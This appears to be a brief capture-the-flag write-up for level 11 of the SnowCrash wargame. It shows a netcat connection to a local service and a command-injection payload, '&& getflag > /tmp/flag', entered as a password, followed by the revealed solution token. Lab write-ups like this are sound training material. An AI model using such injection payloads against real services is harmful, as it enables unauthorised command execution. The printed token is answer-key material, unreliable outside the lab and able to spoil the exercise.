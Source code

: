 ## Level 11

```bash
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: && getflag > /tmp/flag
```

```bash
level11@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```


